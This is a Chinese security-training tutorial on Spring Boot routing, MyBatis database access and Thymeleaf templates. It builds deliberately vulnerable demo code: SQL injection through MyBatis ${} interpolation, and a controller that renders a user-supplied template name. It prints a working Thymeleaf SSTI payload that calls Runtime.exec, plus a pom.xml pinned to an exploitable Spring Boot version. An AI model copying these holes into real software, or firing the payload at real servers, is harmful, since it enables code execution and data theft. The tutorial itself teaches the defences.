


# 038-安全开发-JavaEE应用&SpringBoot框架&MyBatis注入&Thymeleaf模版

## 目录
- [知识点](#知识点)
- [演示案例](#演示案例)
- [SpringBoot-Web应用-路由响应](#springboot-web应用-路由响应)
  - [路由映射](#1-路由映射)
  - [参数传递](#2-参数传递)
  - [数据响应](#3-数据响应)
  - [创建SpringDemo项目](#创建springdemo项目)
- [SpringBoot-数据库应用-Mybatis](#springboot-数据库应用-mybatis)
  - [数据库准备](#1-数据库先创建需操作的数据)
  - [添加依赖](#2-项目添加mybatis数据库驱动前面创建过程已经帮我自动导入)
  - [配置数据库连接](#3-项目配置数据库连接信息)
  - [创建实体类](#4-创建user类用来操作数据库数据)
  - [创建Mapper接口](#5-创建mapper动态接口代理类实现)
  - [创建Controller](#6-创建controller实现web访问调用)
  - [MyBatis注入风险](#安全危险mybatis-sql语句注入风险java的sql注入很少黑盒很看运气)
- [SpringBoot-模版引擎-Thymeleaf](#springboot-模版引擎-thymeleaf)
  - [创建ThyremeafDemo项目](#1-创建thyremeafdemo项目)
  - [创建模板文件](#2-使用模板渲染必须在resources目录下创建templates存放html文件)
  - [创建Controller](#3-创建controller实现web访问调用)
  - [Thymeleaf SSTI风险](#安全问题)
- [难点总结](#难点总结)


## 知识点：
1. JavaEE-SpringBoot-WebAPP&路由：涉及SpringBoot Web应用中HTTP请求的路由映射、参数传递和响应处理，是Web应用交互的基础，也是安全防护的第一道关口（如参数校验、请求方法限制等）。
2. JavaEE-SpringBoot-Mybatis&注入：MyBatis作为ORM框架，若使用不当可能导致SQL注入漏洞，需掌握其安全使用方式。
3. JavaEE-SpringBoot-Thymeleaf&SSTI：Thymeleaf模板引擎在特定场景下可能存在服务器端模板注入（SSTI），需了解其漏洞原理和防御措施。

## 演示案例：
- SpringBoot-Web应用-路由响应：展示SpringBoot如何处理HTTP请求的路由映射、参数传递和数据响应。
- SpringBoot-数据库应用-Mybatis：演示MyBatis操作数据库的基本流程及潜在的SQL注入风险。
- SpringBoot-模版引擎-Thymeleaf：说明Thymeleaf模板渲染机制及SSTI漏洞的产生与利用。


Spring Boot是由Pivotal团队提供的一套开源框架，可以简化spring应用的创建及部署。它提供了丰富的Spring模块化支持，可以帮助开发者更轻松快捷地构建出企业级应用。Spring Boot通过自动配置功能，降低了复杂性，同时支持基于JVM的多种开源框架，可以缩短开发时间，使开发更加简单和高效。


## SpringBoot-Web应用-路由响应
参考：https://springdoc.cn/spring-boot/

### 1、路由映射:
@RequestMapping, @GetMapping, 和 @PostMapping 注解用于定义HTTP请求的映射路径。  
**@RequestMapping 是通用注解，而 @GetMapping 和 @PostMapping 是其简化形式，分别用于处理GET和POST请求。**  

从安全角度看，明确请求方法（GET/POST）可减少越权请求风险。例如，敏感操作（如修改数据）应限制为POST方法，避免通过GET请求直接执行（GET请求参数会暴露在URL中，易被记录和篡改）。

### 2、参数传递:
@RequestParam 注解用于从HTTP请求中提取参数，使得控制器方法可以访问并使用这些参数。  

参数传递是安全风险的高发点，未校验的参数可能导致XSS、注入等漏洞。例如，若直接将@RequestParam获取的参数拼接进SQL或模板渲染，可能引发安全问题。

### 3、数据响应:
@RestController 注解用于标识一个类是RESTful风格的控制器，它包含了 @ResponseBody 和 @Controller 的功能。  
@ResponseBody 表示方法的返回值将直接作为HTTP响应体返回给客户端。  
@Controller 通常用于标识传统的MVC控制器，而 @RestController 更适用于RESTful风格的控制器。  

响应数据若包含敏感信息（如用户密码），需进行脱敏处理；同时，响应格式（如JSON/HTML）需根据场景控制，避免因错误配置导致数据泄露。


### 创建SpringDemo项目
修改服务器URL：https://start.aliyun.com（速度更快版本更稳定），而且Spring官方（https://start.spring.io）不再提供旧版本的初始化配置，无法选择Java8  
选择Spring Web  
创建cn.wusuowei.springdemo.controller.IndexController  

以下是对 IndexController 类的分析：
- 注解说明：  
  @RestController 注解表示这是一个控制器类，专门用于处理RESTful请求，同时它也包含了 @ResponseBody 和 @Controller 的功能。  
  使用 @RequestMapping 注解指定了类中所有方法的基本路径，即这些方法的映射路径的前缀。
- GET请求处理：  
  getindex() 方法用于处理GET请求，映射路径是 “/xiaodiget”。  
  get_g() 方法用于处理GET请求，映射路径是 “/xiaodiget_g”，并且使用 @RequestParam 注解来接收名为 “name” 的参数。
- POST请求处理：  
  getpost() 方法用于处理POST请求，映射路径是 “/xiaodipost”。  
  get_p() 方法用于处理POST请求，映射路径同样是 “/xiaodipost_p”，并且同样使用 @RequestParam 注解来接收名为 “name” 的参数。
- 注解的简化形式：  
  在注释中也提到了使用 @GetMapping 和 @PostMapping 的简化形式，这两者分别等同于 @RequestMapping 中指定了请求方法的注解。

```java
package cn.wusuowei.springdemo.controller;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.*;

@RestController // 等同于@Controller + @ResponseBody，返回值直接作为响应体
public class IndexController {

    // 指定GET请求的访问路由：/xiaodiget
    // @RequestMapping(value = "/xiaodiget", method = RequestMethod.GET) 等价于 @GetMapping("/xiaodiget")
    @RequestMapping(value = "/xiaodiget", method = RequestMethod.GET)
    public String getindex() {
        return "get test"; // 直接返回字符串作为响应
    }

    // 指定POST请求的访问路由：/xiaodipost
    // @RequestMapping(value = "/xiaodipost", method = RequestMethod.POST) 等价于 @PostMapping("/xiaodipost")
    @RequestMapping(value = "/xiaodipost", method = RequestMethod.POST)
    public String getpost() {
        return "post test";
    }

    // 处理带参数的GET请求：/xiaodiget_g?name=xxx
    @RequestMapping(value = "/xiaodiget_g", method = RequestMethod.GET)
    public String get_g(@RequestParam String name) { // @RequestParam接收URL中的name参数
        return "get test" + name; // 直接拼接参数返回，存在XSS风险（若name包含恶意脚本）
    }

    // 处理带参数的POST请求：/xiaodipost_p，参数在请求体中
    @RequestMapping(value = "/xiaodipost_p", method = RequestMethod.POST)
    public String get_p(@RequestParam String name) {
        return "post test" + name; // 同样存在XSS风险
    }
}
```







xiaodiget:



xiaodipost(使用postman):



xiaodiget_g:



xiaodipost_p




## SpringBoot-数据库应用-Mybatis







### 1、数据库先创建需操作的数据





### 2、项目添加Mybatis&数据库驱动(前面创建过程已经帮我自动导入)

-pom.xml

```xml
<!-- MyBatis与SpringBoot整合的 starter -->
<dependency>
  <groupId>org.mybatis.spring.boot</groupId>
  <artifactId>mybatis-spring-boot-starter</artifactId>
  <version>2.2.2</version>
</dependency>

<!-- MySQL数据库驱动 -->
<dependency>
  <groupId>com.mysql</groupId>
  <artifactId>mysql-connector-j</artifactId>
  <scope>runtime</scope> <!-- 运行时依赖，编译时不生效 -->
</dependency>
```

### 3、项目配置数据库连接信息



-application.yml

```yml
spring:
  datasource:
    url: jdbc:mysql://localhost:3306/demo01 # 数据库连接地址（数据库名为demo01）
    username: root # 数据库用户名
    password: password # 数据库密码（实际开发中需加密存储，避免明文）
    driver-class-name: com.mysql.cj.jdbc.Driver # MySQL驱动类（适用于MySQL 8.0+）
```

### 4、创建User类用来操作数据库数据

```java
package cn.xiaodisec.springbootmybatils.entity;

// 代表用户实体的实体类（与数据库表admin的字段对应）
public class User {
    private Integer id; // 对应数据库id字段
    private String username; // 对应数据库username字段
    private String password; // 对应数据库password字段

    // getter和setter方法：用于访问和修改私有属性
    public Integer getId() {
        return id;
    }

    public void setId(Integer id) {
        this.id = id;
    }

    public String getUsername() {
        return username;
    }

    public void setUsername(String username) {
        this.username = username;
    }

    public String getPassword() {
        return password;
    }

    public void setPassword(String password) {
        this.password = password;
    }

    // 重写 toString() 以便于日志记录和调试（打印对象时显示字段值）
    @Override
    public String toString() {
        return "User{" +
                "id=" + id +
                ", username='" + username + '\'' +
                ", password='" + password + '\'' +
                '}';
    }
}
```

### 5、创建Mapper动态接口代理类实现

```java
package cn.xiaodisec.springbootmybatils.mapper;


import cn.xiaodisec.springbootmybatils.entity.User;
import org.apache.ibatis.annotations.Insert;
import org.apache.ibatis.annotations.Mapper;
import org.apache.ibatis.annotations.Select;

import java.util.List;

@Mapper // 标识为MyBatis的Mapper接口，MyBatis会自动生成实现类
public interface UserMapper {

    // 选择所有用户的SQL查询（查询admin表所有数据）
    @Select("select * from admin ")
    public List<User> findAll();

    // 根据特定id选择用户的SQL查询（固定查询id=1的数据，无参数，无注入风险）
    @Select("select * from admin where id=1")
    public List<User> findID();
}
```

### 6、创建Controller实现Web访问调用

```java
package cn.xiaodisec.springbootmybatils.controller;

import cn.xiaodisec.springbootmybatils.entity.User;
import cn.xiaodisec.springbootmybatils.mapper.UserMapper;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

import java.util.List;

@RestController // REST风格控制器，返回JSON数据
public class GetadminController {

    @Autowired // 自动注入UserMapper实例（由Spring容器管理）
    private UserMapper UserMapper;

    // 访问路由：/getadmin，查询所有用户
    @GetMapping("/getadmin")
    public List<User> getadmindata(){
        List<User> all = UserMapper.findAll(); // 调用Mapper方法查询数据
        return all; // 返回查询结果（自动转为JSON）
    }

    // 访问路由：/getid，查询id=1的用户
    @GetMapping("/getid")
    public List<User> getadminid(){
        List<User> all = UserMapper.findID();
        return all;
    }

}
```





### 安全危险：mybatis sql语句注入风险(java的sql注入很少，黑盒很看运气)

MyBatis中SQL注入的核心原因是使用**${}语法**拼接参数（直接替换参数值，不做预编译），而**#{}语法**会将参数视为字符串，自动添加引号并预编译，可避免注入。



先修改相关文件模仿情景

UserMapper：
```java
@Mapper
public interface UserMapper {
    // 使用${id}拼接参数（危险！无预编译，直接替换）
    @Select("select * from admin where id like '%${id}%'")
    public List<User> findAll(Integer id);
```

GetadminController:
```java
// 接收用户传入的id参数并传入Mapper
@GetMapping("/getadmin")
public List<User> getadmindata(@RequestParam Integer id){
    List<User> all = UserMapper.findAll(id);
    return all;
}
```

此时，若用户传入id参数为`1' or '1'='1`，拼接后的SQL为`select * from admin where id like '%1' or '1'='1%'`，会查询所有数据，导致注入。

和xiaodi一样不知道为什么无法注入，使用xiaodi换项目后实现的截图






## SpringBoot-模版引擎-Thymeleaf

-不安全的模版版本



日常开发中：语言切换页面，主题更换等传参导致的[SSTI](https://so.csdn.net/so/search?q=SSTI&spm=1001.2101.3001.7020)注入安全问题  
漏洞参考：https://mp.weixin.qq.com/s/NueP4ohS2vSeRCdx4A7yOg


### 1、创建ThyremeafDemo项目





### 2、使用模板渲染，必须在resources目录下创建templates存放html文件

index.html
```html
<!DOCTYPE html>
<html  xmlns:th="http://www.thymeleaf.org"> <!-- 引入Thymeleaf命名空间，支持th:*属性 -->
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body >
<!-- th:text="${data}"：将后端传入的data变量值渲染到span标签中（会自动转义HTML，默认防御XSS） -->
<span th:text="${data}">小迪安全</span>
</body>
</html>
```

test.html
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>xiaodi</title>
</head>
<body>
xiaodisec
</body>
</html>
```

### 3、创建Controller实现Web访问调用

```java
package cn.xiaodisec.thyremeafdemo.controller;

import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

//@Controller
@RestController // 问题点：@RestController包含@ResponseBody，会将返回值作为字符串直接返回，而非渲染模板
public class ThyremeafController {
    @RequestMapping(value = "/index")
    public String index(Model model) {
        model.addAttribute("data", "hello xiaodi"); // 向模板传递data变量
        //@RestController：index被当作字符串返回，不渲染模板
        //@Controller：index被当作模板文件名（resources/templates/index.html）渲染
        return "index";
    }

    @RequestMapping(value = "/test")
    public String index() {
        // 同上，@RestController返回"test"字符串，@Controller渲染test.html
        return "test";
    }
}
```

##### 遇到问题：路径访问并没有从模板渲染，而是当成字符串显示操作



原因：@RestController包含了 `@ResponseBody` 和 `@Controller` 的功能。`@ResponseBody` 会使方法返回值直接作为响应体（字符串），而非模板文件名，因此不会触发模板渲染。

解决方式：更换为`@Controller`（无@ResponseBody），此时返回值会被视为模板文件名，从resources/templates目录下查找并渲染。



### 安全问题：

日常开发中：语言切换页面，主题更换等传参导致的SSTI注入安全问题。  
SSTI（服务器端模板注入）指攻击者通过控制模板渲染的变量或模板文件名，注入恶意模板代码，执行任意命令或读取敏感信息。

例如：更换中英文页面模板





#### 1. 创建如下的控制器实现Web访问调用，和渲染模板文件

ThyremeafController.java
```java
@Controller // 使用@Controller确保返回值作为模板名渲染
//@RestController
public class ThyremeafController {
    
    // 接收lang参数，作为模板文件名渲染（危险！直接使用用户输入作为模板名）
    @RequestMapping(value = "/")
    public String index(@RequestParam String lang) {
        // 若lang为恶意模板代码，可能触发SSTI
        return lang; // 例如：lang=index-en 则渲染index-en.html
    }
    
}
```

index-en.html
```html
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>

</body>
</html>
```

#### 2. 启动项目，并输入对应路由访问，指向渲染文件的文件名[?lang=index-en](http://127.0.0.1:8080/?lang=index-en)

http://127.0.0.1:8080/?lang=index-en



3.替换为注入

```
__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc%22).getInputStream()).next()%7d__::.x
```
（注：上述字符串是URL编码后的恶意模板代码，解码后为`__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()}__::.x`，意图执行calc命令弹出计算器）

发现报错


原因：Thymeleaf版本问题。高版本Thymeleaf对模板表达式做了严格限制，禁止执行危险的Java代码，而低版本（如2.2.0.RELEASE）存在防护缺陷，可能被利用。


#### 4.替换pom.xml整个文件，到对应的漏洞版本再次注入



```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.springframework</groupId>
    <artifactId>java-spring-thymeleaf</artifactId>
    <version>1.0</version>

    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <!-- 使用存在SSTI风险的低版本 -->
        <version>2.2.0.RELEASE</version>
    </parent>

    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-thymeleaf</artifactId>
        </dependency>

    </dependencies>

    <properties>
        <java.version>1.8</java.version>
    </properties>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
            </plugin>
        </plugins>
    </build>
</project>
```

成功注入：




## 难点总结
1. **MyBatis注入的隐蔽性**：Java应用中SQL注入较少见，因MyBatis默认推荐#{}预编译，但开发者可能为图方便使用${}（如动态表名、排序字段），导致注入。黑盒测试中难以直接识别，需结合参数位置和报错信息判断。
   
2. **Thymeleaf版本差异影响**：高版本Thymeleaf通过沙箱机制限制模板表达式执行危险代码，而低版本防护不足。需明确版本与漏洞的对应关系，否则可能出现“注入代码无效”的误判。

3. **路由与模板渲染的混淆**：@RestController和@Controller的区别易被忽略，导致模板无法正常渲染或误将用户输入作为模板名，这是SSTI漏洞产生的常见原因之一。

4. **参数处理的安全边界**：无论是路由参数、数据库查询参数还是模板变量，都需明确“用户输入不可信”原则。例如，直接拼接参数到SQL、模板或响应中，均可能引发安全问题，需严格校验和转义。